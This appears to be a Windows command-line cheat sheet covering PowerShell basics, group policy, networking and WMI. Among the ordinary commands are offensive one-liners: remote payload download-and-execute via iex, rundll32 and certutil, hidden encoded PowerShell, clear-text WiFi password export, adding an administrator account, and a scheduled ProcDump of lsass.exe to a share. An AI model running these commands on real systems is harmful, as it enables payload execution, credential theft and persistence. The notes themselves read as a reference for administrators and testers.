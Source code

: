 One-liners commands
===================

Here are some useful short commands for Windows systems that may be useful.


Basic PowerShell commands
-------------------------

* ``sls`` (``Select-String``): look for a pattern.

  Example:

  .. code-block:: sh

      # Search my-needle in the input
      sls my-needle

      # Search my-needle in files ending with .txt
      sls -Path *.txt -Pattern my-needle

  Documentation:

  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-string?view=powershell-6
  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_regular_expressions?view=powershell-6

* ``gcm`` (``Get-Command``): List cmdlets (PowerShell commands) matching a pattern.

  Example:

  .. code-block:: sh

      # List commands using "WMI" in their names
      gcm -noun *WMI*

* Typing "Ctrl+Space" spawns PSReadLine module, which presents possible completion options (in a more powerful way than "Tab").

* Basic PowerShell constructions include:

  - ``ForEach-Object``, to perform an operation (between braces) on each item of an object (aliases: ``ForEach`` and ``%``)
  - ``Where-Object``, to filter an object (aliases: ``Where`` and ``?``)

PowerShell also provides commands to browse the filesystem.
Here is a correspondence table between PowerShell commands and commands from other systems, that are also available in PowerShell as aliases:

+-------------------------+--------------------------------------------------+----------------------------------------------+
|                         |                     Aliases                      |                                              |
|      cmdlet             +---------+-------------------+--------------------+ Description                                  |
|                         |   PS    | ``cmd.exe``       |   UNIX shell       |                                              |
+=========================+=========+===================+====================+==============================================+
| ``Get-Location``        | ``gl``  | ``pwd``           | ``pwd``            | Get the current node.                        |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Location``        | ``sl``  | ``cd``, ``chdir`` | ``cd``, ``chdir``  | Change the current node.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ChildItem``       | ``gci`` | ``dir``           | ``ls``             | List the objects stored at the current node. |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``New-Item``            | ``ni``  | ``md``, ``mkdir`` | ``mkdir``          | Create a directory.                          |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Item``            | ``gi``  |                   |                    | Return the properties of the current item.   |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Item``            | ``si``  |                   |                    | Define the content of an item.               |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-Item``           | ``cpi`` | ``copy``          | ``cp``             | Copy an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-Item``           | ``mi``  | ``move``          | ``mv``             | Move an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-Item``         | ``rni`` | ``rn``            | ``ren``            | Rename an object.                            |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Remove-Item``         | ``ri``  | ``del``, ``rd``,  | ``rm``, ``rmdir``  | Remove an object.                            |
|                         |         | ``erase``         |                    |                                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Content``         | ``gc``  | ``type``          | ``cat``            | Get the content of an object.                |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Content``         | ``sc``  |                   |                    | Define the content of an object.             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ItemProperty``    | ``gp``  |                   |                    | Return a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-ItemProperty``   | ``cpp`` |                   |                    | Copy a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-ItemProperty``   | ``mp``  |                   |                    | Move a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-ItemProperty`` | ``rnp`` |                   |                    | Rename a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Compare-Object``      |         | ``compare``       | ``diff``           | Compare several objects.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Write-Output``        |         | ``write``         | ``echo``           | Print something to the standard output.      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Invoke-WebRequest``   | ``iwr`` |                   | ``curl``, ``wget`` | Perform a HTTP request.                      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Help``            |         | ``help``          | ``man``            | Get the help associated with a cmdlet.       |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+

PowerShell provides objects in several hierarchies, that are "drives" provided by "providers":

.. code-block:: sh

    Get-PSProvider
    Get-PSDrive

    # Get the version of PowerShell
    Get-Host
    $PSVersionTable.PSVersion

In order to use a drive, add a colon symbol to it:

.. code-block:: sh

    ls alias:
    ls env:
    ls variable:
    ls env:path
    ls function:h*
    cat function:help

    # In order to get $PATH:
    (ls env:path).value
    cat env:path
    echo $env:path

    # In order to set an environment variable globally, such as the one for Mirosoft symbols:
    setx _NT_SYMBOL_PATH srv*C:\DebugSymbols*http://msdl.microsoft.com/download/symbols

In order to use a provider, add two colons to it::

    ls registry::HKEY_USERS

Get the methods and properties:

.. code-block:: sh

    # For an object (instance of a class)
    $obj | Get-Member
    $obj | gm

    # For a class (for the static methods and properties)
    $obj | Get-Member -Static


Download and run
----------------

Download and run a script

* PowerShell (``iex`` is an alias to ``Invoke-Expression``):

  .. code-block:: sh

      powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

      powershell.exe -exec bypass "iex (New-Object Net.Webclient).DownloadString('http://webserver/payload.ps1')"

* JavaScript through Rundll32 (used by Win32/Poweliks malware):

  .. code-block:: sh

      rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

* Using ``certutil``:

  .. code-block:: sh

      certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe

Source: https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/amp/

Downloading files with PowerShell:

.. code-block:: sh

    $content = (New-Object Net.WebClient).DownloadString("http://webserver/file.txt")

    # Save to a file
    Invoke-WebRequest -Uri http://webserver/file.txt -OutFile file.txt -UseBasicParsing

    # With BITS (Background Intelligent Transfer Service) (ipmo = Import-Module)
    ipmo BitsTransfer;Start-BitsTransfer -Source "http://webserver/file.txt" -Destination C:\Windows\Temp\

Run a PowerShell script:

.. code-block:: sh

    %windir%\System32\WindowsPowerShell\v1.0\powershell.exe -Noninteractive -ExecutionPolicy Bypass –Noprofile -file MyScript.ps1

Run PowerShell code endoded as UTF-16LE+Base64:

.. code-block:: sh

    # start /B : start application without creating a new window
    # -nop for -NoProfile : do not load the PowerShell profile
    # -sta for -Sta : start using a single-threaded apartment
    # -noni for -NonInteractive : does not present an interactive prompt
    # -w 1 or -w hidden or -win Hidden for -WindowStyle Hidden : hidden PowerShell window
    # -enc for -EncodedCommand : execute the command encoded in base64
    # -ep bypass or -exec bypass for -ExecutionPolicy bypass : set the default execution
    #       policy for the current session and saves it in $env:PSExecutionPolicyPreference
    #       (redundant when -enc is given)
    start /b powershell -nop -sta -w 1 -enc "$(iconv -t utf16le < payload.ps1 | base64)"


Proxy settings
--------------

Get the HTTP proxy which is currently configured:

.. code-block:: sh

    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable
    netsh winhttp dump

Add a HTTP proxy:

.. code-block:: sh

    netsh winhttp set proxy 127.0.0.1:3128


WiFi profiles
-------------

List available WiFi profiles:

.. code-block:: sh

    netsh wlan show profiles

Export WiFi profiles (username and password) to ``%APPDATA%\<profile>.xml``:

.. code-block:: sh

    cmd.exe /c netsh wlan export profile key=clear folder="%APPDATA%"

Source: https://securelist.com/shedding-skin-turlas-fresh-faces/88069/

In PowerShell, without writing any file:

.. code-block:: sh

    $results = (netsh wlan show profiles) |
        Select-String '\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} |
        %{(netsh wlan show profile name=$name key=clear)} |
        Select-String 'Key Content\W+\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} |
        %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }}

    # Display the results or record them in files
    $results
    $results | Format-Table -Wrap
    $results | Format-Table -AutoSize
    $results | Out-GridView
    $results | Export-Csv -Path .\wifi.csv -NoTypeInformation -Encoding ASCII
    $results | Out-File -FilePath .\wifi.txt -Encoding ASCII

Sources:

* https://jocha.se/blog/tech/display-all-saved-wifi-passwords
* https://www.tenforums.com/tutorials/27997-see-wireless-network-security-key-password-windows-10-a.html
* https://community.idera.com/database-tools/powershell/ask_the_experts/f/learn_powershell_from_don_jones-24/19610/convert-one-liner-to-more-readable-code


User and group management
-------------------------

Some commands to list and manage users and groups

.. code-block:: sh

    # Get information on the current user
    whoami
    whoami /groups
    whoami /priv
    whoami /all

    # Local users and groups manager
    lusrmgr.msc

    # net command on local accounts
    net user
    net localgroup

    # net command on Active Directory accounts
    net user /domain
    net group

    # query command
    query user

    # Get information about the current sessions on a server
    qwinsta
    query session

    # PowerShell, with MS Exchange cmdlet
    # Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010
    Get-User | Export-CSV C:\Temp\AllUsers.csv -NoTypeInfo

    # WMI (PowerShell)
    Get-WmiObject Win32_UserAccount
    Get-CimInstance -ClassName Win32_UserAccount
    Get-CimInstance -ClassName Win32_Group

    # Add an administrator user
    net user newuser password /add
    net localgroup Administrators newuser /add

Spawn an elevated prompt when UAC is enabled (User Account Control):

.. code-block:: sh

    Start-Process -Verb RunAs PowerShell
    saps -verb runas powershell

In order to login as administrator to a remote machine without using the built-in administrator (RID 500), a registry key needs to be set.

.. code-block:: sh

    cmd /c reg add
      HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
      /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

    PowerShell Set-ItemProperty
        –Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"
        –Name LocalAccountTokenFilterPolicy –Value 1 –Type DWord

This has been described in many blog posts:

* https://support.microsoft.com/en-us/help/942817/how-to-change-the-remote-uac-localaccounttokenfilterpolicy-registry-se
* https://blogs.msdn.microsoft.com/wmi/2009/07/24/powershell-remoting-between-two-workgroup-machines/
* https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/


Enumerate live objects
----------------------

Enumerate all processes:

.. code-block:: sh

    tasklist /v
    query process *
    Get-Process
    # "gps" and "ps" are aliases of Get-Process

Find processes from its name:

.. code-block:: sh

    tasklist /v | find /I "explorer.exe"  # Only in cmd.exe, as "find" requires the quotes
    Get-Process | Select Name=explorer.exe

Enumerate all services:

.. code-block:: sh

    Get-Service | Export-CSV C:\Temp\AllServices.csv -NoTypeInfo
    gsv | epcsv C:\Temp\AllServices.csv -NoTypeInfo


Group Policy
------------

Edit Local Group Policy:

.. code-block:: sh

    # Local Group Policy Editor (with local GPO to Local Security Policy, Administrative Templates...)
    gpedit.msc
    # Local Security Policy (with SRP=Software Restriction Policies, AppLocker, Password Policies...)
    secpol.msc

For example to configure the servicing channel on Windows 10 (https://docs.microsoft.com/en-gb/windows/deployment/update/waas-servicing-channels-windows-10-updates):

* Open ``gpedit.msc`` (Local Group Policy Editor).
* Go to "Local Computer Policy/Computer Configuration/Administrative Templates/Windows Components/Windows Update/Windows Update For Business".
* Click on "Select when Preview Builds and Feature Updates are received". A dialog box opens.
* Select "Enabled" and choose a readiness level among "Preview Build - Fast", "Preview Build - Slow", "Release Preview", "Semi-Annual Channel (Targeted)" or "Semi-Annual Channel".
* Click on "OK".

Export the Local Group Policy:

.. code-block:: sh

    secedit /export /cfg system_config.cfg

    # With at least Windows Vista or Windows Server 2008
    gpresult /H GPReport.html
    gpresult /SCOPE COMPUTER /H GPReport-Computer.html

    # Display RSoP summary data (Resultant Set of Policies)
    gpresult /R

    # RSoP GUI
    RSOP.msc

Work on Group Policy Objects (GPO):

.. code-block:: sh

    # Launch the Group Policy Management Console
    gpmc.msc

    # Apply the GPO
    gpupdate /force

The Remote Server Administration Tools (RSAT) provides Group Policy PowerShell Cmdlets (https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/ee461027%28v=technet.10%29):

.. code-block:: sh

    Get-WindowsCapability -Online | ? Name -like 'Rsat.GroupPolicy.Management.Tools*'
    Get-GPOReport -All -ReportType Html -Path GpoReport.html

Logon scripts are located in folder ``%SystemRoot%\SYSVOL\sysvol\{domain DNS name}\Policies\{GUID of the GPO}\User\Scripts\Logon`` (on Domain controllers).
They can be implemented in VBScript (``.vbs`` extension) or PowerShell (``.ps1`` extension).
In GPMC, they are linked to a GPO using either:

* Computer Configuration -> Policies -> Windows Settings -> Scripts (Startup / Shutdown)
* User Configuration -> Policies -> Windows Settings -> Scripts (Logon/Logoff)

A third way of running scripts on a system consists in using Immediate Scheduled Tasks:

* Computer Configuration -> Preferences -> Control Panel Settings -> Scheduled Tasks


Scheduled tasks
---------------

In order to create a scheduled task that runs at 13:37 `ProcDump <https://docs.microsoft.com/en-us/sysinternals/downloads/procdump>`_ on ``lsass.exe`` (Local Security Authority Subsystem service process) and uploads the result onto a network share, `schtasks <https://docs.microsoft.com/en-us/windows/win32/taskschd/schtasks>`_ can be used:

.. code-block:: sh

    # /ru user context under which the task runs
    # /sc schedule frequency
    # /st start time in HH:mm format (24-hour time)
    #      Python: (datetime.datetime.now() + datetime.timedelta(minutes=2)).strftime("%H:%M")
    # /tn task name
    # /tr task to be run
    schtasks /create /tn "NameOfMyTask" /ru SYSTEM /sc once /st 13:37
        /tr "\\192.0.2.42\ro\procdump64.exe -accepteula -ma lsass.exe \\192.0.2.42\rw\lsass.dmp"

    # List tasks with their status and next run time
    schtasks


Software information
--------------------

In order to list the upgrades that have been applied, using DISM (Deployment Image Servicing and Management Tool):

.. code-block:: sh

    dism /online /get-packages

In order to check for an applied update, with its KB number:

.. code-block:: sh

    dism /online /get-packages | findstr KB99999

    # systeminfo.exe enumerates the "hotfixes" too
    systeminfo.exe | findstr KB99999

    # WMI also provides such an information in
    # System.Management.ManagementObject#root\CIMV2\Win32_QuickFixEngineering
    wmic qfe get hotfixid | find "KB99999"
    wmic qfe | find "KB99999"

    # From PowerShell
    Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid}

    # https://docs.microsoft.com/en-gb/powershell/module/Microsoft.PowerShell.Management/Get-HotFix?view=powershell-5.1
    Get-HotFix -id KB99999

The software may be signed using a certificate in a certificate store.

.. code-block:: sh

    # Manage user certificates
    certmgr.msc

    # Manage local machine certificates
    certlm.msc


Boot configuration
------------------

.. code-block:: sh

    msconfig

    bcdedit /enum all


Installed software
------------------

.. code-block:: sh

    wmic product get "name,version" /format:csv > applications.csv


Networking
----------

Get the current status of the network stack:

.. code-block:: sh

    # Get the configuration of all network adapters
    ipconfig /all

    # Display the content of the DNS client resolver cache
    ipconfig /displaydns

    # Get network routes
    route print

    # Show the active TCP connections and listening TCP and UDP ports, with PIDs
    netstat -ano

TCP port forwarding with netsh:

.. code-block:: sh

    netsh interface portproxy add v4tov4 listenport=1234 listenaddress=192.0.2.42
        connectport=80 connectaddress=10.13.37.1

On a WindowsDNS server:

.. code-block:: sh

    # Get server information
    dnscmd /info

    # Enumerate zones and records
    dnscmd /enumzones
    dnscmd /zoneprint ${ZONE_NAME}
    dnscmd /enumrecords ${ZONE_NAME} ${NODE_NAME}


Firewall
--------

.. code-block:: sh

    wf.msc

    Get-NetFirewallProfile
    Show-NetFirewallRule

    netsh advfirewall export "C:\Users\Administrator\Desktop\advfirewallpolicy.wfw"
    netsh advfirewall show allprofiles
    netsh advfirewall show global
    netsh advfirewall firewall dump

    # On old versions of Windows
    netsh advfirewall dump


Network shares
--------------

.. code-block:: sh

    # List the network shares currently used
    net use

    # List the shares on a server (use "localhost" for local shares)
    net view my-server /ALL

    # List shares using WMI (on a remote server or localy)
    $shares = Get-CIMInstance –Classname Win32_Share -computername my-server -filter "Type=0"
    $shares | foreach {
    "     Share Name   : " + $_.name + "
         Source Folder: " + $_.path + "
         Description  : " + $_.Description + "
         Caption      : " + $_.Caption + "
         Type         : " + ('0x{0:x}' -f $_.Type) + "
    "
    }

    # Mount a share to a drive letter
    net use /user:me Z: \\my-server\my-share
    New-PSDrive –Name "Z" -PSProvider FileSystem –Root "\\my-server\my-share"

In order to easily provide files to a Windows host from a Linux system, it is possible to use impacket to start a simple Samba server:

.. code-block:: sh

    smbserver.py -smb2support -username me -password mypass my-share /path/to/my-share


Other network commands
----------------------

Some scripts such as https://github.com/thom-s/netsec-ps-scripts/blob/master/printer-telnet-ftp-report/printer-telnet-ftp-report.ps1 use PowerShell cmdlets in order to perform connectivity tests:

.. code-block:: sh

    # Send a ping to the given IP address
    Test-Connection -ComputerName 192.0.2.42 -Quiet -Count 1 -InformationAction Ignore

    # Test telnet connectivity
    $result = Test-NetConnection -ComputerName 192.0.2.42 -Port 23
    $result.PingSucceeded
    $result.TcpTestSucceeded

    # Open a network socket to FTP port
    $client = New-Object System.Net.Sockets.TcpClient(192.0.2.42, 21)
    $client.Close()

Documentation:

* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/test-connection?view=powershell-6
* https://docs.microsoft.com/en-us/powershell/module/nettcpip/test-netconnection?view=win10-ps


Filesystem management
---------------------

Since Windows Vista, it is possible to create symbolic links on Windows:

.. code-block:: sh

    # Create a symbolic link to a file
    mklink "C:\Path\to\link\file" "C:\Path\to\target\file"

    # Create a symbolic link to a directory
    mklink /D "C:\Path\to\link\directory" "C:\Path\to\target\directory"

    # With PowerShell 5.0 (Windows 10)
    New-Item -Path "C:\Path\to\link" -ItemType SymbolicLink -Value "C:\Path\to\target"

The command to mount a volume on a path is `mountvol <https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mountvol>`_:

.. code-block:: sh

    # Example from Microsoft documentation
    mountvol \sysmount \\?\Volume\{2eca078d-5cbc-43d3-aff8-7e8511f60d0e}\

    # Enumerate the volumes from PowerShell
    Get-WmiObject Win32_Volume

It is also possible to associate a path with a drive letter using command `subst <https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/subst>`_:

.. code-block:: sh

    subst Z: "C:\my\path"

    # Remove the association
    subst Z: /d


Alternate Data Streams
----------------------

Get files with ``Zone.Identifier`` alternate data stream (ADS):

.. code-block:: sh

    Get-ChildItem -Recurse | Get-Item -Stream Zone.Identifier -ErrorAction SilentlyContinue |
        Select-Object FileName

Read an ADS:

.. code-block:: sh

    Get-Content -Stream Zone.Identifier .\my-application.exe

Remove an ADS:

.. code-block:: sh

    Remove-Item .\my-application.exe -Stream Zone.Identifier

When downloading a file from the Internet, ``dir`` shows a filename with suffix ``:Zone.Identifier:$DATA`` and with 26 bytes (each lines are ended by ``"\r\n"``:

.. code-block:: ini

    [ZoneTransfer]
    ZoneId=3

The Zone identifier is 0 for the local machine, 1 for the local intranet, 2 for trusted sites, 3 for the Internet or 4 for restricted sites.

The ADS ``Zone.Identifier`` may contain other fields such as ``ReferrerUrl=...``.

The empty ADS matches the usual content of a file. This means that the content is both accessible through ``filepath`` and ``filepath::$DATA``.


CSV and table viewer
--------------------

Display a simple CSV file in a simple GUI, from a PowerShell prompt:

.. code-block:: sh

    Import-Csv -Path file.csv | Out-GridView
    ipcsv -Path file.csv | ogv

In order to produce a CSV from a PowerShell command:

.. code-block:: sh

    ... | Sort-Object -Property Timestamp | Export-Csv file.csv -notypeinformation
    ... | sort -Property Timestamp | epcsv file.csv -notypeinformation

For a table in the CLI:

.. code-block:: sh

    ... | Format-Table
    ... | ft

    # Show all properties of the object
    ... | Format-Table -Property *
    ... | ft *

In order to show a table as a list:

.. code-block:: sh

    ... | Format-List
    ... | fl

    # Show all properties of the object
    ... | Format-List -Property *
    ... | fl *

In order to filter the properties of an object, it is possible to use ``Select-Object`` with filters (eg. ``Select-Object a*, b*`` for properties that start with "a" or "b").

``Select-Object`` can also be used to compute new properties.
For example, in order to compute a size in Gigabytes, it is possible to use the unit suffix ``GB`` and the format string ``{0:N2}`` which formats floats using 2 digits after the dot:

.. code-block:: sh

    Get-WmiObject Win32_DiskDrive |
      Select-Object Model,Status,@{Name='SizeGB';Expression={"{0:N2}" -f ($_.Size / 1GB)}}


WMI
---

WMI (Windows Management Instrumentation) provides information about many parts of the operating system:

.. code-block:: sh

    # Enumerate WMI providers
    Get-WmiObject -Class __Provider | ft

    # Get information about the OS
    gwmi Win32_OperatingSystem

    # Launch a GUI to enumerate WMI classes for known namespaces (and PowerShell ScriptOMatic)
    # In C:\Windows\System32\wbem\wbemtest.exe
    wbemtest.exe

In order to gather information about a Trusted Platform Module (TPM), the namespace needs to be changed:

.. code-block:: sh

    $tpm = Get-WmiObject -Namespace "root\CIMV2\Security\MicrosoftTpm" -Class Win32_Tpm
    $tpm.IsEnabled()
    $tpm.IsActivated()
    $tpm.IsOwned()
    $tpm.SelfTest()


MSSQL client
------------

In order to connect to a MSSQL server from a PowerShell CLI (cf. https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection?view=netframework-4.7.2):

.. code-block:: sh

    $ConnectionString = "Server=MSSQL-SRV\MY-INSTANCE;Database=mydb;User ID=sa;Password=sa;"
    $SqlConnection = New-Object System.Data.SqlClient.SqlConnection($ConnectionString)
    $SqlConnection.Open()
    $SqlConnection.State
    # Result: "Open"

To run a trivial SQL query:

.. code-block:: sh

    # The verbose way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand
    $SqlCmd.CommandText = "SELECT 42"
    $SqlCmd.Connection = $SqlConnection
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter
    $SqlAdapter.SelectCommand = $SqlCmd
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

    # The more-compact way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT 42", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

In order to find out which tables the logged user has access, here are some queries:

* ``SELECT * FROM sys.databases``
* ``SELECT * FROM sys.tables``

The following commands export the first rows of every table to files, once a ``$SqlConnection`` has been created:

.. code-block:: sh

    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT * FROM sys.tables", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $AllTables = $DataSet.Tables[0] | Sort-Object -property name

    $AllTables | ForEach-Object {
        $tblName = $_.name
        $csvName = "dump_top_" + $tblName + ".csv"
        echo "Exporting data to " $csvName
        $SqlCmd = New-Object System.Data.SqlClient.SqlCommand(("SELECT TOP 10000 * FROM " + $tblName), $SqlConnection)
        $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
        $DataSet = New-Object System.Data.DataSet
        $SqlAdapter.Fill($DataSet)
        $DataSet.Tables[0] | Export-Csv $csvName -notypeinformation
    }

On a SQL Server, it is also possible to create a virtual drive (cf. https://docs.microsoft.com/en-us/sql/powershell/navigate-sql-server-powershell-paths?view=sql-server-2017):

.. code-block:: sh

    New-PSDrive -Name MYDB -Root SQLSERVER:\SQL\localhost\DEFAULT\Databases\mydb
    Set-Location MYDB:\Tables\Users
